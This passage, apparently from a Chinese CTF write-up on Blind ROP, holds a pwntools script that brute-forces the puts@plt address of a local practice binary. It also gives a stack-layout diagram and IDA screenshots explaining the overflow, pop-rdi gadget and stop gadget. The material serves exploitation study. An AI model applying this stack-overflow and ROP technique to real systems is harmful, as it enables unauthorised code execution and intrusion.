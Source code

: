 ```python
# coding=utf-8
from pwn import *
context.log_level = "debug"

def get_puts(length,rdi_ret,stop_gaddet):
    addr = 0x400000
    while 1:
        print hex(addr)
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a'*length + p64(rdi_ret) + p64(0x400000)+p64(addr) + p64(stop_gadget)
#72个A填充栈空间，调用pop rdi；ret gadget将0x400000pop进rdi寄存器，
#循环增长的地址放在gadget的ret位置，在执行完gadget后直接调用循环增长的地址，
#如果增长到puts_plt地址就会打印rdi寄存器中地址内存放的字符串，
#最后的stop gadget是为了让程序不崩溃    
        p.sendline(payload)
        try:
            content = p.recv()
            if content.startswith('\x7fELF'):
                #判断是否打印\x7fELF
                print 'find puts@plt addr : 0x%x'%addr
                return addr
            p.close()
            addr+=1
        except Exception:
            p.close()
            addr+=1

length = 72
rdi_ret = 0x4007ba + 0x9
stop_gadget = 0x4005d0
puts = get_puts(length,rdi_ret,stop_gadget)
#find puts_add --> [0x400565]
#puts_plt = 0x400560
```

运行结果如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598331919861-d4be012d-99a1-4180-abeb-421de85f8d45.png)

最后根据plt的结构，选择0x400570作为puts_plt的地址，我们使用IDA验证一下

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598355290703-7d12193e-c01b-4a99-9642-2ba462e8f99c.png)

可以看到该地址却是是puts函数的plt地址，正常情况下是看不到二进制文件的，此处看IDA是为了更好的讲解

栈中布局：

```python
                       +---------------------------+
                       |       	stop gadget        | stop gadget确保程序不崩溃
                       +---------------------------+
                       |       	  0x400000+        | 循环递增地址，作为pop的ret地址
                       +---------------------------+
                       |          0x400000 	       | ELF起始地址，地址内存放'\x7fELF'
                       +---------------------------+
                       |          0x4007c3         | pop rdi；ret地址覆盖原ret返回位置
                       +---------------------------+
                       |             a             | a字符串覆盖ebp位置
                ebp--->+---------------------------+
                       |             a             | a字符串占位填满栈空间
                       |           ....            |        .....
                       |             a             | a字符串占位填满栈空间
                       |             a             | a字符串占位填满栈空间
                       |             a             | a字符串占位填满栈空间
```